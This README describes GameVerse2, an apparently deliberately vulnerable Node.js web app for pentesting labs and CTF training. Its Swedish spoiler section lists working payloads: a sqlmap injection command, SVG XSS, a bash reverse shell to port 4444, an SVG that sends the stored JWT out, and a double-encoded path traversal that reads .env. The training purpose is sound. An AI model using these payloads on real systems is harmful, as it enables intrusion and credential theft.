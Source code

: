 # GameVerse 2

GameVerse2 is a deliberately vulnerable web application built with Node.js and SQLite.  
It’s designed for pentesting labs, security education, and CTF-style training.

> ⚠️ **For educational and testing use only!**  
> Do not deploy this server to a production or public environment.

---

## Features

- User authentication with JWT
- SQLite database (file-based)
- File upload and plugin execution system
- Avatar system with SVG support
- Deliberately insecure code for hands-on security training

---

## Getting Started

### 1. Clone the repository

```bash
git clone https://github.com/your-org/gameverse2.git
cd gameverse2
```

---

### 2. Start with Node.js

> Make sure you have Node.js 18+ and npm installed.

#### Install dependencies:

```bash
npm install
```

#### Start the server:

```bash
node server.js
```

Server will run on [http://localhost:3333](http://localhost:3333)

---

### 3. Start with Docker

> Recommended for clean lab environments and to easily persist the database.

#### Build the image:

```bash
docker build -t gameverse2 .
```

#### Start the container (with database persistence):

```bash
docker run -p 3333:3333 -v $(pwd)/gameverse.db:/home/appuser/app/gameverse.db gameverse2
```

---

## Ports

- Default HTTP port: **3333**

---

<details>
  <summary>🕵️ <strong>Sårbarheter (spoilers!)</strong></summary>

### SQLi i `/users`
Exempel med sqlmap:
```bash
sqlmap -u "10.3.10.182:3333/users/?q=*" --headers="Authorization: Bearer <JWT>" --code 200 --tables --tamper=space2comment --risk 3 --level 5
```

---

### XSS via avatar-URL (med `<object>`)
Skapa SVG:
```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(1)</script>
</svg>
```
Bädda in SVG så här:
```html
<object data="uppladdad.svg" type="image/svg+xml"></object>
```

---

### Eval-baserad plugin-RCE för admins
```js
require('child_process').exec('bash -c "bash -i >& /dev/tcp/localhost/4444 0>&1"');
```

---

### Path traversal mot plugins
```plaintext
Ladda upp .js utanför plugins med ../ i path – se LFI-exemplet nedan.
```

---

### JWT-exfiltration via XSS
```xml
<svg>
  <animate onend="new Image().src='//localhost:4444/jwt?d='+encodeURIComponent(localStorage.getItem('jwtToken'))" dur="1s" attributeName="x"/>
</svg>
```

---

### Klartextlösenord i databasen
```bash
sqlite3 gameverse.db
-- visa alla användare och lösenord i klartext!
```

---

### LFI i `/images`
```plaintext
/images?path=%252e%252e%252fconfig%252fdev%252f.env
```
(Dubbel URL-encode – `../config/dev/.env`)
</details>
